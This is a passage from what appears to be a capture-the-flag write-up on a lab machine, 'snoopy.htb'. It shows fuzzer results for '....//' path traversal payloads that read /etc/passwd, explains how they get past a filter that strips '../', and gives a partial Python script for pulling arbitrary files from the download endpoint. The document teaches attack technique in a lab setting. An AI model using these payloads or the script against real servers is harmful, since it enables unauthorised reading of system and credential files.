 ```
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 99ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 103ms]
....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
:: Progress: [922/922] :: Job [1/1] :: 470 req/sec :: Duration: [0:00:02] :: Errors: 0 ::

```

Again, I’m using `-mc all` to allow all codes, and `-ac` to let it smart decide what to filter. It seems like the site must be removing `../` in such a way that `....//` becomes `../`. I can verify this manually:

![image-20230509153726493](/img/image-20230509153726493.png)

The file coming back starts with `PK`, which are the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for a zip archive. I’ll try that in a browser, and the resulting zip has the `passwd` file:

![image-20230509154124652](/img/image-20230509154124652.png)

#### Script

To enumerate the host, I’ll write a quick Python script to allow me to easily pull files and unzip them. I’ll walk through building the script in [this video](https://www.youtube.com/watch?v=2a4OJeSZ_N0):

The final code looks like:

```

#!/usr/bin/env python3

import requests
import sys
import zipfile
from io import BytesIO

if len(sys.argv) < 2:
    print(f"usage: {sys.argv[0]} [full path of file]")
    sys.exit()

fpath = sys.argv[1]
outfile = sys.argv[2] if len(sys.argv) > 2 else None

resp = requests.get(f'http://snoopy.htb/download?file=....//....//....//....//....//{fpath}')

if len(resp.content) == 0:
    print(f"File not found: {fpath}")
    sys.exit()

```
